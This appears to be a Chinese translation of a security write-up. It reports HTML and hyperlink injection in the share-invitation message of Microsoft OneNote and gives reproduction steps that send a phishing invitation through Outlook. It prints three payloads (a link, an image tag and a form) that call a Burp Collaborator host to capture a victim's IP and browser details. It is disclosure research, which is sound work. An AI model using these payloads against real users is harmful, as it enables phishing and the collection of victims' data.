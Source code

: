 # 通过 Microsoft Onenote 应用程序中的共享选项插入 HTML 和超链接

> 原文：<https://infosecwriteups.com/html-and-hyperlink-injection-via-share-option-in-microsoft-onenote-application-47e94d0e6478?source=collection_archive---------0----------------------->

> 超链接注入是指攻击者在发送电子邮件邀请时注入恶意链接。HTML 注入攻击是通过网站易受攻击的部分注入 HTML 代码。恶意用户通过任何易受攻击的字段发送 HTML 代码，目的是更改网站的设计或显示给用户的任何信息。可以在消息字段中插入 html 代码，这可用于将用户重定向到恶意网站，并通过标签导致网站内容的改变。

*   电子邮件中的超链接注入可能导致通过电子邮件直接发送给用户的网络钓鱼。
*   攻击者可以共享一个假标题，如“你赢得了 1000 卢比。点击认领”。
*   而在邮件中，本身由于 HTML 注入，就有可能注入 HTML 代码，做出 URL 超链接。可以进一步添加到假邮件中。
*   在邮件标题本身显示通过 outlook.com，这使得电子邮件的真实性。
*   攻击者只需要一封电子邮件，如果是公司(组织电子邮件),就可以绕过网络钓鱼保护。【href 属性的 using 标记中的 HTML 注入可用于将用户重定向到虚假 IP 或将流量重定向到任何 IP，这可进一步将流量重定向到域。
*   虚假链接可用于通过用户代理和位置收集用户信息，如 IP 地址和浏览器信息。通过添加标签，可以改变字体大小和外观，从而导致部分污损。
*   攻击者唯一需要的是一封电子邮件，如果是公司(组织电子邮件),这可以绕过网络钓鱼保护。

# 复制步骤:

*   创建新的笔记本并通过 attacker@outlook.com 用户登录。
*   点击右上角的共享。在“共享选项”>邀请人们加入笔记本。

![](img/ecc125ebdd89a9aa2aaca79150992864.png)

*   然后键入电子邮件并包含消息。
*   在包含消息中，输入下面提到的任何有效载荷:

![](img/070a173762317566f1f987286852634c.png)

1) HTML 标签:`<a href=”https://burpcollaboratorlink.burpcollaborator.net"> Click to win</a>`

2)图像标签:`<img src=”https://burpcollaboratorlink.burpcollaborator.net">`

3) HTML 表单:

```
< html>
< body>
< h2 >HTML Forms< /h2 >
< form action="burp-coolaborator.burpcollaborator.net">
< label for="fname">First name:< /label>< br>
< input type="text" id="fname" name="fname" value="John">< br>
< label for="lname">Last name:< /label>< br>
< input type="text" id="lname" name="lname" value="Doe">< br>< br>
< input type="submit" value="Submit">
< /form>
< p>Click to win< /p>
< /body>
< /html>
```

![](img/7f401984555773318ecba9e2edc5e0b0.png)

HTML 表单

*   分享给受害者。
*   在 outlook 上检查网络钓鱼邮件。

![](img/29c1d8d0c20412729b6eef15931f48e6.png)

展望标签

![](img/7eb5c85b6b4dcaedb3c987eea5ffc2fb.png)

Outlook 网络钓鱼电子邮件

*   在 gmail 上查看邮件。

![](img/6faa8d02e35ace97cea17a6a0075430f.png)

Gmail 钓鱼电子邮件

*   一旦受害者点击链接，它将被重定向到恶意网站。

![](img/d8fed7f7d1eea4af3d75ee91946598ab.png)

受害者的打嗝合作者 IP 回拨

# 影响

*   href 属性的 using 标记中的 HTML 注入可用于将用户重定向到假 IP 或将流量重定向到任何 IP，这可进一步将流量重定向到域。
*   虚假链接可用于通过用户代理和位置收集用户信息，如 IP 地址和浏览器信息。

> 一旦问题得到解决，它就会被 MSRC 计划标记为超出范围。

![](img/f07a01487afde305ea8eaab0f4ffdefd.png)

***来自 Infosec 的报道:****Infosec 上每天都会出现很多让人难以跟上的事情。加入我们的* ***每周简讯*** *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个* ***工作提醒的形式免费获取所有最新的信息安全趋势！****[*https://weekly.infosecwriteups.com/*](https://weekly.infosecwriteups.com/)*